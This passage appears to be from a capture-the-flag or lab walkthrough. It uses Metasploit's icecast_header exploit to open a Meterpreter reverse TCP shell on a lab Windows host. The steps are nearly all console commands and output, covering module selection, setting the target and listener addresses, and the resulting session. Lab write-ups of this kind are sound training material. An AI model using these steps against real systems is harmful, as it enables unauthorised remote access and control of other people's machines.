 We will use the Metasploit Framework, start it using `msfconsole`
```bash
msf6 > search icecast

Matching Modules
================

   #  Name                                 Disclosure Date  Rank   Check  Description
   -  ----                                 ---------------  ----   -----  -----------
   0  exploit/windows/http/icecast_header  2004-09-28       great  No     Icecast Header Overwrite
msf6 > use exploit/windows/http/icecast_header
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
```

Set the required options: Remote host and local host
```bash
msf6 exploit(windows/http/icecast_header) > set RHOST 10.10.37.29
RHOST => 10.10.37.29
msf6 exploit(windows/http/icecast_header) > set LHOST 10.9.8.180
msf6 exploit(windows/http/icecast_header) > options

Module options (exploit/windows/http/icecast_header):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  10.10.37.29      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploi
                                      t/basics/using-metasploit.html
   RPORT   8000             yes       The target port (TCP)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.9.8.180        yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.
```

Then start the exploitation
```bash
msf6 exploit(windows/http/icecast_header) > exploit
[*] Started reverse TCP handler on 10.9.8.180:4444 
[*] Sending stage (177734 bytes) to 10.10.37.29
[*] Meterpreter session 1 opened (10.9.8.180:4444 -> 10.10.37.29:49245) at 2025-07-19 06:21:12 -0400
meterpreter >
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
```
